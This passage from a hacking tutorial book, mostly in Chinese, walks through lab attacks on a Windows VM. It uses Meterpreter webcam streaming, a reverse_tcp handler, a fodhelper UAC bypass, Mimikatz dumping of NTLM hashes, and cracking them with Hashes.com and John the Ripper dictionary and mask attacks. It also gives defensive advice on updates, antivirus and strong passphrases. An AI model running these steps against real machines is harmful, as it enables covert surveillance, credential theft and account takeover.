3. 在 VirtualBox Manager 中，选择 Windows 虚拟机并转到 **Machine**▶**Settings** 或 **Machine**▶**Settings**▶**Ports**（在 macOS 上）。在 Settings 菜单中选择 **USB**，并选中 **Enable USB Controller** 旁边的复选框。

4. 重新启动 Windows 虚拟机。转到菜单栏，选择 **Devices**▶**Webcams** 或 **Devices**▶**USB**，并选择你的摄像头名称。

5. 关闭 Windows 虚拟机的防火墙和 Defender。然后再次运行木马。

6. 在 Kali 的 Meterpreter 提示符处输入 `webcam_list` 以查找摄像头是否可用。你应该会看到类似这样的内容：

```
meterpreter > webcam_list
1: VirtualBox Webcam - Logitech HD Webcam C310 
```

例如，我的摄像头显示为 `VirtualBox Webcam - Logitech HD Webcam C310`。

7. 输入 `webcam_stream` 通过 Meterpreter 连接到摄像头。

```
meterpreter > webcam_stream
[*] Starting...
[*] Preparing player...
[*] Opening player at: /home/kali/KMKiGQxa.html
[*] Streaming...
```

Meterpreter 将打开 Firefox 并从 Windows 虚拟机的摄像头流式传输视频，如 图 6-9 所示。



图 6-9：摄像头流显示了我和我办公室的书架。

你应该会看到摄像头的指示灯亮起，表明摄像头处于活动状态。与 `screenshare` 和 `keyscan` 命令不同，摄像头攻击会让你知道有人在监视你。如果你在不使用摄像头时发现指示灯亮着，请运行一次 *彻底* 的杀毒扫描并重启计算机，看看指示灯是否熄灭。但是，不要依赖摄像头指示灯：一些高级攻击可以在 *不打开* 指示灯的情况下通过摄像头进行监视。这就是为什么遵循下一节中描述的安全措施很重要的原因。

要停止从 Windows 10 虚拟机的摄像头流式传输视频，请关闭 Firefox 并在 Meterpreter 窗口中按 CTRL-C 以中断 `webcam_stream` 命令。然后拿一张便利贴或一片遮蔽胶带，贴在笔记本电脑的摄像头上！

## 防御恶意软件

正如你在本章中所见，病毒创建和分发都非常容易。你接收或打开的任何可疑电子邮件附件、链接、网页、应用程序或视频都可能包含等待被启动的恶意软件。攻击者甚至不需要太多技能；他们只需使用 Metasploit 并诱骗人们下载病毒。一旦计算机被感染，不道德的黑客可以用来攻击它的手段简直令人恐惧。

你的最佳防御措施如下：

1. 经常更新软件。至少每月更新一次你的操作系统和应用程序，从文字处理器和网页浏览器到 PDF 阅读器。选择每月的某一天，比如 1 号、15 号或 30 号，并在日历上标记以更新你的设备和所有应用程序。把它当作一项必须完成的任务，就像付账单或修剪草坪一样。Kali 中的 2000 多个漏洞利用大多针对旧版软件，因此如果你为所使用的软件安装了最新的安全补丁，你就不太容易受到攻击。

2. 使用防火墙和杀毒软件。保持防火墙开启，并定期更新杀毒软件。有几种免费和低成本的杀毒工具可供选择。研究哪些工具能拦截最多的恶意软件，然后每周更新你的杀毒工具，或开启自动更新，以最大限度地保护你。

3. 点击前三思。恶意软件可以通过受感染的程序文件、盗版视频，甚至 Office 文档和 PDF 来启动。点对点文件共享网站上充满了“免费”的恶意软件感染文件，等待毫无戒心的受害者。对来自你不信任的来源的 *任何* 文件运行 VirusTotal 或另一种病毒扫描，并且根本不要下载可疑或非法文件。

这些措施不会让你无懈可击，但它们会帮助你避免大多数基于恶意软件的攻击，并让你成为一个足够困难的目标，以至于大多数黑客会转而攻击其他受害者。大多数攻击都依赖于 *易攻击目标* 的概念——恶意黑客入侵你系统的轻松机会，例如过时的软件、禁用的防火墙或杀毒程序，或者用户在不先扫描的情况下打开链接或下载文件。不幸的是，有足够多的易攻击目标让黑客忙个不停，因此采取这些明智的预防措施可以让你免受超过 90% 攻击的侵害。

哦……当你不使用摄像头时，记得遮住它！

## 本章要点

在本章中，你了解了攻击者如何创建恶意软件，以及未受保护的计算机是多么容易被感染。使用 Metasploit 框架，你创建了一个 Meterpreter 远程访问木马（RAT），这是一种特殊的恶意软件，只要攻击者有互联网连接，就可以从世界任何地方控制你的计算机。你通过在 Kali Linux 虚拟机中开启 Apache Web 服务器并将木马放在共享 Web 文件夹中，在网络上共享了你的恶意软件。然后你将恶意软件下载到 Windows 虚拟机并打开文件以感染你的机器。

接下来，你从 Kali 中的 Meterpreter 远程 shell 控制了 Windows 虚拟机。你了解了攻击者如何仅使用一两个命令来上传和下载文件、窃取屏幕截图、记录按键以及通过摄像头进行监视。对于大多数攻击，你的 Windows 虚拟机甚至没有显示它正在被黑客攻击。

最后，你了解了如何预防许多基于恶意软件的攻击。避免可疑的下载、链接和网站；保持防火墙和杀毒软件开启并及时更新；定期更新你的操作系统和应用程序，这些都是重要的预防措施。如果你采用多层安全防护，你就是一个更难攻击的目标，大多数攻击者会转而攻击更容易的猎物。

在下一章中，我们将把技能提升一个层次，看看不道德的黑客如何使用 Meterpreter 和其他工具来窃取和破解密码。

# 7

窃取和破解密码


在第 6 章中，你了解了攻击者如何创建恶意软件来感染你的计算机并查看你的文件、按键、屏幕、网络摄像头视频等。在本章中，你将看到攻击者如何使用相同的恶意软件来窃取 Windows 计算机上所有用户的加密密码。然后你将了解黑客如何 `crack` 这些密码，或者将它们以未加密的明文形式恢复出来。

如果攻击者破解了你的密码，他们可能能够入侵你使用过该密码的任何其他账户、网站或设备——即使你添加了额外字符使其对其他账户“独特”。弱密码是黑帽黑客入侵组织网络或个人账户的最简单方式之一。但是，如果你的密码足够强，即使攻击者窃取了加密密码，他们也无法破解它。

## 密码哈希

现代计算机系统和安全网站在存储密码前会使用加密哈希函数对其进行加密。与你在间谍电影中遇到的、旨在接收端解码的代码不同，`cryptographic hash function` 以一种无法逆转或解密的方式加密你的密码。密码的哈希版本称为 `password hash`。哈希可以被视为十六进制数字的长字符串，如 Listing 7-1 所示。

```
359878442cf617606802105e2f439dbc
63191e4ece37523c9fe6bb62a5e64d45
9dddd5ce1b1375bc497feeb871842d4b
4d1f35512954cb227b25bbd92e15bc7b
e6071c75ea19bef227b49e5e304eb2f1
```

Listing 7-1: 五个密码的哈希版本

当你登录计算机或网站时，它检查你是否输入了正确密码的唯一方法是，对你输入的字符运行相同的哈希函数，然后将结果与其数据库中存储的密码哈希进行比较。

存在多种不同类型的哈希函数，但它们有几个共同点：

*   在特定哈希函数中，相同的输入文本始终会产生相同的哈希值；这是必要的，以便你存储的密码哈希可以与你返回网站时输入的密码的哈希进行测试。

*   特定哈希函数生成的每个哈希长度都相同，无论输入文本有多长。由于单词密码和五个单词的密码会产生相同数量的哈希字符，哈希函数隐藏了你密码的长度。

*   更改输入中的一个字符会导致哈希中许多字符发生变化，因此向密码添加甚至一个字符会完全改变哈希。

## 窃取 Windows 密码哈希

在本节中，我们将使用你的 Kali Linux 虚拟机从 Windows 10 虚拟机窃取密码数据。首先，我们将在 Windows 10 虚拟机中创建多个用户名和密码。接下来，我们将使用 Meterpreter 远程访问木马重新入侵 Windows 虚拟机。然后，我们将使用 Metasploit 中的 Mimikatz 工具从 Windows 10 受害机器窃取密码哈希。

### 创建 Windows 用户

首先，让我们向 Windows 10 虚拟机添加一些用户，以便我们稍后窃取他们的密码哈希。

1.  在 VirtualBox 中打开你的 Windows 10 虚拟机（使用 `IEUser` 和 `Passw0rd!` 登录）。

2.  在 Windows 搜索栏中输入 `cmd`，右键单击 `Command Prompt` 应用，然后单击 `以管理员身份运行`。当 Windows 询问你是否允许此应用对你的设备进行更改时，单击 `是`。

3.  使用第 2 章中 Sticky Keys 攻击期间使用的相同命令创建一个新用户账户：

    ```
    C:\WINDOWS\system32> net user ironman Jarvis /add
    ```

    此命令添加名为 `ironman`、密码为 `Jarvis` 的用户。

4.  现在添加几个密码复杂度和长度不同的其他用户账户：

    ```
    C:\WINDOWS\system32> net user ana Password1 /add
    C:\WINDOWS\system32> net user ben P@$$w0rd! /add
    C:\WINDOWS\system32> net user carol CaptainMarvel /add
    C:\WINDOWS\system32> net user clark superman20 /add
    C:\WINDOWS\system32> net user kara SuperGirl7! /add
    C:\WINDOWS\system32> net user peter SpidermanRulez:) /add
    ```

5.  在最后一条命令之后，Windows 会警告你密码长度超过 14 个字符（这是 2000 年之前 Windows 机器上的密码长度限制！）。输入 `Y` 以告知 Windows 你仍然想要使用长密码。

6.  最后，为一个带有你姓名的用户名创建一个强密码短语（由至少四个单词加上一个数字或特殊符号组成）——但请确保这是一个你在任何真实账户中都没有使用的假密码短语，因为我们将尝试破解它。这是我的示例：

    ```
    C:\WINDOWS\system32> net user bryson Don'tyouwishyourpasswordwastoughlikemine! /add
    ```

你可能认为这样的密码短语每次登录时输入太困难，但实际上它比你添加的大多数密码更容易记住且更难猜测。

### 使用 Meterpreter 重新入侵 Windows 10

接下来，我们需要从 Kali 重新入侵 Windows 10 虚拟机。

1.  启动你的 Kali 虚拟机（使用用户名和密码 `kali` 登录），并通过单击 Kali 菜单按钮并选择 `08 - Exploitation Tools`▶`Metasploit Framework` 打开 Metasploit 应用。

2.  在 `msf6` 命令提示符下，输入以下命令重新启动你的 Kali Web 服务器：

    ```
    msf6 > sudo service apache2 start
    ```

    Web 服务器将提供包含你 Windows 恶意软件的 `10.0.9.x/share` 文件夹，以防你需要再次下载它。

3.  在 Metasploit 中输入以下四个命令以监听 Meterpreter 木马回连：

    ```
    msf6 > use exploit/multi/handler
    msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set LHOST 10.0.9.x
    msf6 exploit(multi/handler) > exploit -j
    ```

    请记住将 `10.0.9.x` 更改为你的 Kali 虚拟机 IP 地址（输入 `ip addr`，或简写为 `ip a`，以查看 IP 地址）。

4.  切换回你的 Windows 10 虚拟机。关闭 Windows Defender 实时病毒防护：在 Windows 搜索栏中输入 `virus`，打开 `Virus & threat protection settings`，单击 `Manage settings`，并将实时防护下的切换开关滑动到 `Off`。

5.  在 Windows 10 虚拟机的管理员命令提示符中输入以下命令，同时关闭 Windows 防火墙：

    ```
    C:\Windows\system32> netsh advfirewall set allprofiles state off
    ```

    Windows 将响应 `Ok.`。

6.  找到你在第 6 章中创建的 Meterpreter 木马可执行文件。该文件应仍位于你的 `Downloads` 或 `Documents` 文件夹中。如果 Windows Defender 已将其删除，请打开 Edge 浏览器，访问 `http://<10.0.9.4>/share/`（如果你的 Kali 虚拟机 IP 地址与 `10.0.9.4` 不同，请替换为你的 IP 地址），并再次下载木马。再次检查你的病毒和威胁防护设置，确保实时防护已关闭。然后双击木马运行它。

7.  切换回你的 Kali 虚拟机，你应该会看到一个 Meterpreter 会话已打开：

    ```
    msf6 exploit(multi/handler) > [*] Sending stage (179779 bytes) to 10.0.9.5[*] Meterpreter session 1 opened (10.0.9.4:4444 -> 10.0.9.5:50789) at 2020-06-17 15:40:38 -0400
    ```

### 提升权限

窃取 Windows 密码需要管理员或系统级权限，这是比你用来运行 Meterpreter 木马的 IEUser 账户更高的访问级别。得益于 Metasploit，我们将能够通过另一个漏洞提升访问级别。此过程称为 `privilege escalation`。


# 使用 Metasploit 利用 Windows fodhelper 漏洞

We’ll use a Metasploit exploit of the Windows `fodhelper` vulnerability to get system-level access. Windows uses a program called `fodhelper.exe` (the `fod` is short for “features on demand”) to manage regional settings like the keyboard layout for your language of choice. This app is a good target for hackers because it runs with higher privileges to be able to change language settings across multiple apps, such as your web browser, word processor, and desktop.

## 1. 准备 Metasploit 会话

In your Kali VM, make sure you’re at the `msf6` command prompt, not interacting with a Meterpreter session. If you see the `meterpreter >` command prompt, enter `background` to return to the regular `msf6` command prompt:

```
meterpreter > background[*] Backgrounding session 1...
msf6 exploit(multi/handler) >
```

## 2. 配置并运行漏洞利用模块

From the `msf6` prompt, enter the five commands shown in bold:

```
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > use exploit/windows/local/bypassuac_fodhelper
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/bypassuac_fodhelper) > set SESSION 1
SESSION => X
msf6 exploit(windows/local/bypassuac_fodhelper) > set LHOST 10.0.9.x
LHOST => 10.0.9.x
msf6 exploit(windows/local/bypassuac_fodhelper) > exploit
```

Change the `set SESSION` command to match your session number (if it isn’t 1) and change the `LHOST` IP address to match that of your Kali machine.

The last command, `exploit`, might take a couple of tries. If you get a message stating `no session was created`, use the up arrow and press enter to run the `exploit` command again. When it succeeds, you’ll see `Meterpreter session 2 opened`, meaning that the exploit has opened a second session. Your command prompt will change back to `meterpreter >` to indicate that you’re interacting with a new Meterpreter session.

Privilege escalation is the highest-level, most technically challenging hack you’ll perform in this book, and it might take several tries. If you keep seeing “no session created” messages, check your Windows 10 VM to make sure Windows Defender’s Virus & threat protection settings are still turned off. If you’re still stuck, try rerunning the hack from the beginning. And, at some point in the next five years, there’s a good chance Windows will fix the `fodhelper` vulnerability and you’ll have to try a different exploit. Check the book’s website at [`www.nostarch.com/go-hck-yourself/`](https://www.nostarch.com/go-hck-yourself/) for updates or do a web search for “Metasploit privilege escalation” on the latest version of Windows.

## 3. 获取系统级权限

Enter `getsystem` in Meterpreter to get system-level access to the Windows 10 VM:

```
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

Check that you’ve got system-level access by entering `getuid`:

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Meterpreter will respond that your user ID is `NT AUTHORITY\System`, indicating that you now have system-level access.

# 使用 Mimikatz 窃取密码哈希

Now that we have system-level privileges, we’re ready to steal the password hashes. We’ll use Mimikatz, a hacking tool that can access Windows passwords from multiple locations, including directly from the memory of the computer while it’s running. The Mimikatz module in Metasploit is named `kiwi` (the New Zealander who wrote Mimikatz, Benjamin Delpy, calls himself the Gentil Kiwi).

## 1. 加载 Mimikatz 工具

Enter `use kiwi` at the Meterpreter prompt to load the Mimikatz tools:

```
meterpreter > use kiwi
```

## 2. 转储密码哈希

The Mimikatz startup screen will appear in your Meterpreter console. Now we can dump the password hashes for all users from the Windows 10 VM, like so:

```
meterpreter > lsa_dump_sam
```

Mimikatz will answer by listing all the users and Windows password hashes it can find:

```
[+] Running as SYSTEM
[*] Dumping SAM--snip--
RID  : 000003f0 (1008)
User : peter  Hash NTLM: e262404bfe47aa34ba668187b4209380
RID  : 000003f1 (1009)
User : bryson Hash NTLM: 0a2b1c4f5d7ad37f9e2df24ff3ab4c48 
```

The password hashes use the `New Technology LAN Manager (NTLM)` format, one of the ways that Windows computers store login information, including password hashes. We’ll select this type of password hash later when we crack the passwords.

## 3. 收集密码哈希

To crack the password hashes, we need to gather them in a text document. Highlight the usernames and NTLM hashes, right-click the selection, and choose `Copy` (you can’t use ctrl-C to copy in the Metasploit console; that’s the command to quit or close a running process in a terminal window).

Open the Mousepad Text Editor by clicking the Kali menu button and selecting `Favorites`▶`Text Editor`. Press ctrl-V to paste the text you copied from Meterpreter into Mousepad.

Click `File`▶`New` to open a second Mousepad window. Copy and paste just the usernames and password hashes into this new document in the format `username:hash`, with one username and hash value per line, separated by a colon, as shown in Figure 7-1. Make sure there are no extra spaces.



Figure 7-1: Copying and pasting the usernames and NTLM hash values into a new text file

Skip any users without hash values or any of the accounts Windows created, like `sshd`, `Guest`, and `DefaultAccount`. You’re interested only in real user and admin accounts, like `IEUser`, `Administrator`, and the user accounts you created earlier in the chapter.

Save the file as `Windows_hashes.txt` in your `Documents` folder.

# 破解密码

Now that we have a document of usernames and password hashes stolen from the Windows VM, we’re ready to begin cracking the passwords. Hackers take a few different approaches to password cracking. A `dictionary attack` uses a list of common passwords, hashing each one to see if it matches the hash you’re trying to crack. Dictionary attacks are fast, but they only help with relatively simple passwords. A `brute-force attack` systematically tries every combination of characters to find even highly complex passwords up to a certain length. This makes brute-force attacks very thorough, but extremely slow. A `mask attack` is a special type of brute-force attack we use when we know part of the password and have to brute-force just a few characters.

We’ll try out a few approaches to password cracking. As you’ll see, the internet and Kali Linux have resources that make short work of cracking passwords. First, you’ll search a free online password database to crack common password hashes. Then, you’ll use one of Kali’s many password-cracking tools, John the Ripper, to crack more of the hashes. You’ll start with a password dictionary attack for the easier passwords, and you’ll finish with a mask attack.

## 免费在线密码数据库

Hashes.com is a web service that allows you to search for passwords in a database of `billions` of previously cracked hashes. Every time you hash a particular password, you get the same hash, so the database can store each password with its hash. When you search for a hash, the database returns the unencrypted password (if that password is in the database).

## 1. 访问 Hashes.com

In your Kali VM, open the Firefox browser and go to [`hashes.com/decrypt/hash/`](https://hashes.com/decrypt/hash/).

Paste the usernames and password hashes from your `Windows_hashes.txt` file into the Hashes text box. Then remove the usernames so that only the hashes appear in the box, as shown in Figure 7-2.


3. 点击 `Submit & Search` 以搜索 Hashes.com 数据库。几秒钟后，你应该会看到一份已破解密码列表：

```
64f12cddaa88057e06a81b54e73b949b:Password1
85f4aaf6ac4fac1d9b55e6b880bcda3e:CaptainMarvel
920ae267e048417fcfe00f49ecbd4b33:P@$$w0rd!
d6566eae841e523df8fd96a42bcbd4ac:superman20
fc525c9683e8fe067095ba2ddc971889:Passw0rd!--snip--
```



Figure 7-2: Hashes.com takes your NTLM hashes as input and outputs any cracked passwords it finds in its database.

Hashes.com 找到了五个密码！由于它不断向数据库中添加新密码，因此可能能够破解本书中我们将使用的更多简单密码。

我们能够使用免费的在线查找工具从 Windows 虚拟机中恢复至少五个密码——攻击者可能只需要 `one` 个用户名和密码，就能入侵网络、公司或政府机构。这就是为什么组织中的 `every user` 都选择更长、更难猜测的密码非常重要。

### John the Ripper

John the Ripper，通常缩写为 JtR 或简称 John，是最古老的密码破解工具之一；自第一个版本的 John 发布以来，已有 20 多年的历史。John 包含在 Kali Linux 的 Kali 菜单按钮的 `05 - Password Attacks` 菜单下。

John 从命令行终端运行，但还有一个名为 Johnny 的 John 版本，带有图形用户界面 (GUI)，更易于使用。Johnny 未包含在最新版本的 Kali 中。要安装它，请打开一个新终端窗口并输入以下两个命令：

```
kali@kali:~$ sudo apt update
kali@kali:~$ sudo apt install johnny
```

在第一个命令后，你可能需要输入密码（`kali`）。安装后，Johnny 通常会出现在 John 下方的 `05 - Password Attacks` 菜单中，但你也可以通过在终端输入 `johnny` 来运行它。

我们将在 Johnny 中使用两种方法来破解更多被盗的 Windows 密码。我们将尝试字典攻击来破解常见密码，并尝试掩码攻击来破解带有变体的密码。你在 Johnny 中所做的一切，也都可以在终端中使用 John 完成；使用 Johnny 后，你可以查找 John 的命令并尝试它们，以了解整个过程。

#### A Dictionary Attack

我们将从尝试字典攻击开始。也称为 `wordlist attack`，`dictionary attack` 是针对我们试图破解的哈希值测试一系列单词。John the Ripper 将对我们提供的长列表中常见密码的每个密码进行哈希处理，并将每个哈希值与我们的 Windows 哈希值进行比较。如果找到匹配项，我们就破解了该密码。

Kali 内置了几个单词列表，包括 RockYou 单词列表。RockYou 是一家公司，在 2009 年涉及保护不力的 Web 应用程序的著名泄露事件中丢失了 3200 万用户的密码。RockYou 暴露的明文密码列表仍然是检查密码安全性的最佳免费单词列表之一。

1. 要访问 RockYou 单词列表，请在终端窗口中输入以下命令：

```
kali@kali:~$ sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```

此命令将单词列表提取为 `/usr/share/wordlists` 文件夹中的 `rockyou.txt`，以便可以在 John 和 Johnny 中将其用作字典。

2. 通过单击 Kali 菜单按钮并选择 `05 - Password Attacks`▶`johnny` 打开 Johnny。

3. 单击 `Open password file`▶`Open password file (PASSWD format)`。找到我们先前创建的 `Windows_hashes.txt` 文件，如 Figure 7-3 所示，并选择它以加载密码哈希文件。


Figure 7-3: Opening the `Windows_hashes.txt` password file in Johnny

4. 在 Johnny 左侧单击 `Options`，然后在 Options 窗口中单击 Attack mode 下的 `Wordlist` 选项卡。在 Wordlist file: 文本框中输入 `/usr/share/wordlists/rockyou.txt`，如 Figure 7-4 所示。


Figure 7-4: Loading the `rockyou.txt` wordlist through Johnny

5. 仍在 Options 窗口中，在 Session details 下，从 Current hash format: 下拉列表中选择 `NT`，如 Figure 7-5 所示。这告诉 Johnny 密码哈希处于 NTLM 格式。


Figure 7-5: Choosing `NT` as the input password hash format

6. 在左侧单击 `Passwords`，然后单击顶部的 `Start new attack`。

几乎立即，Johnny 将显示几个已破解的密码，如 Figure 7-6 所示。（如果看不到任何密码，请确保在第 5 步中将当前哈希格式更改为 NT。）



Figure 7-6: It takes Johnny almost no time to crack five or six passwords using the hashes we captured.

我们花了几分钟来捕获密码哈希，但使用 RockYou 单词列表进行字典攻击破解前五六个密码只需不到一秒钟。如果你使用只有几个数字和符号的简单一词或两词密码，恶意黑客只需做这些工作就能拿到你的密码。

RockYou 单词列表包含了我们为用户设置的几个密码。其他密码足够复杂，未出现在列表中。让我们看看如何使用 Johnny 中的另一个选项——掩码攻击——来破解一两个更多密码。

#### A Mask Attack

`mask attack` 从部分信息开始，例如旧密码，并添加字符以尝试破解类似密码。你或你认识的人很有可能正在通过在末尾添加数字或符号来重复使用旧密码，例如 `badpassword20!`。这种行为比你想象的更常见，并使许多密码容易受到掩码攻击。

如果攻击者获得某人密码片段，掩码攻击也很有效。想象一下 Kara，我们的一名 Windows 用户，在 CatCo Worldwide Media 找到了一份工作。当路过 Kara 的办公桌时，一个爱管闲事的同事看到 Kara 扔进垃圾桶的一张便利贴。它撕破了，但看起来上面可能写着密码的一部分：`SuperGir`（参见 Figure 7-7）。

社会工程师称这种行为为 `dumpster diving`——字面意思就是翻找他人的垃圾以寻找有用信息，例如银行对账单、信用卡优惠，或写在信封背面或像这样便利贴上的密码。


Figure 7-7: Kara’s torn sticky note with what looks like part of her password

在 Johnny 中，我们可以在 `SuperGir` 末尾添加通配符字符，以尝试猜测 Kara 密码的其余部分可能是什么。`wildcard` 是一个占位符，可以被一组字母、数字或符号中的任何一个替换。我们可以使用通配符字符 `?u` 表示大写字母，`?l` 表示小写字母，`?d` 表示数字（0–9），`?s` 表示特殊符号，或 `?a` 表示所有可打印字符（字母、数字、标点符号和特殊字符）。


我们可以使用已知的密码部分（`SuperGir`），加上一些通配符字符，来创建一个掩码。`mask` 通过填充我们已知的字符（在此例中，前八个字符：`SuperGir`）来减少需要尝试的密码组合数量。根据便利贴，我们不知道 Kara 的密码是以数字、字母还是特殊字符结尾，所以先使用 `SuperGir?a` 这样的掩码来试试。

1. 在 Johnny 中，点击左侧的 `Options`，点击 `Mask` 选项卡，并在 Mask: 文本框中输入 `SuperGir?a`。

2. 点击顶部的 `Start new attack`。然后，要查看 Kara 的密码是否被破解，点击左侧的 `Passwords`。你应该会发现，SuperGir 后面只有一个通配符字符无法破解该密码。

3. 返回 `Mask` 选项卡，输入两个通配符字符，`SuperGir?a?a`，然后再试一次。

4. 还是没有结果？输入第三个通配符字符，`SuperGir?a?a?a`，如 图 7-8 所示。然后再次点击 `Start new attack`。



图 7-8：使用掩码攻击——在便利贴上找到的部分密码后面添加通配符字符——来破解 Kara 的密码

这次，图 7-8 中窗口底部的进度条应该会变化，显示 Johnny 能够破解一个额外的密码。再次点击 `Passwords`。现在，在 `kara` 旁边，你会看到她的密码 `SuperGirl7!`，如 图 7-9 所示。


图 7-9：密码掩码 `SuperGir?a?a?a` 在不到一秒钟内就破解了 Kara 的密码（`SuperGirl7!`）！

尽管我们只有 Kara 密码的一部分，但仍能使用掩码攻击来猜测她的完整密码。Johnny 花不到一秒钟的时间就尝试了从 `SuperGir000` 到 `SuperGirl7!` 的数千种可能性，逐一尝试。这意味着，如果你只是在密码的开头、中间或结尾更改数字和符号来重复使用密码，那么发现你一个旧密码的黑客可以使用 Johnny 或类似工具在几秒钟内猜出你的当前密码。

你也可以使用掩码攻击来破解 Peter 的密码。输入几个通配符字符——先从 `SpidermanRu?a` 开始，然后是 `SpidermanRu?a?a`，依此类推——直到破解完整密码。最后一轮可能需要五六分钟才能运行，因为每增加一个字符，复杂度都会呈指数级增加（3 个通配符不到一秒钟，4 个通配符需要三到四秒钟，5 个通配符需要五到六分钟，6 个通配符需要近九个小时，而 14 个通配符则需要数千年！）。

破解更长密码所需时间呈指数级增长，这正是每个人都应该使用长密码的原因。无论我们运行 Johnny 多少年，都不太可能破解我们的长密码短语，即你创建的最终密码。长密码是我们用来防止黑客入侵账户的技巧之一。

## 使用更安全的密码

你只需做一些小改动，就能让密码变得连专业人士也难以破解。首先，一般来说，密码越长，就越安全。要创建一个强密码短语，选择四个或更多随机且不相关的单词，将它们串联起来。要让你的密码短语几乎无法破解，添加几个数字或特殊字符。

除了常规键盘上的特殊字符，如 `!`、`@`、`#` 和 `$`，你还可以添加一种与你自己的语言或字母表不同的语言或字母表中的特殊字符。即使你使用较短的密码而不是密码短语，添加另一种语言的特殊字符也会让它更难被破解。

让我们看看如何在不同操作系统中实现这一点。

1. Windows 按住 ALT 键的同时在数字小键盘上输入数字，然后释放。例如，按住 ALT 键的同时在数字小键盘上输入 0214；当你释放 alt 键时，字符 `Ö` 将出现（带变音符号的大写 `O`）。在线搜索“Windows alt codes”列表，找到你想要使用的字符。请注意，某些键盘可能特别要求你使用左侧 ALT 键。在没有数字小键盘的笔记本电脑上，你可以按 Windows 键加句号键（Windows-.）来插入表情符号或其他符号。

2. Linux 按下 ctrl-shift-U；释放（屏幕上会出现一个带下划线的 `u`）；输入你想要的字符的 Unicode 十六进制值，例如 `Ö` 字符的 `d6`（或要求四位数的系统使用 `00d6`），然后按空格键或回车键。在线搜索“Unicode character codes”以查找更多选项。

3. macOS 按下 CONTROL-COMMAND-SPACEBAR 以调出字符查看器。输入 `u+d6` 以显示 `Ö` 字符。要插入字符，可以按下箭头键选择它然后按 ENTER，或者直接用鼠标点击它。适用于 Linux 的相同 Unicode 字符代码也适用于 macOS 的字符查看器；只需在十六进制代码前添加 `u+`。

4. iPhone 或 Android 在虚拟键盘上长按 O，直到出现带有 `Ö` 字符和其他选项的弹出窗口。如果不安装应用程序或选择备用键盘布局，你无法访问所有 Unicode 字符，但对大多数元音和少数辅音进行长按，将为你提供足够的选项来增强密码强度。

当然，你可能记不住一个或两个带有这种特殊字符的长密码。密码管理器可以通过为你的大多数账户设置长而随机的密码并安全地为你存储它们来减轻负担。此外，只要提供，你就应该开启双重身份验证。使用此功能，即使攻击者破解了你的一个密码，他们可能也无法访问你的账户。我们将在第 11 章更详细地了解这些工具。

## 要点

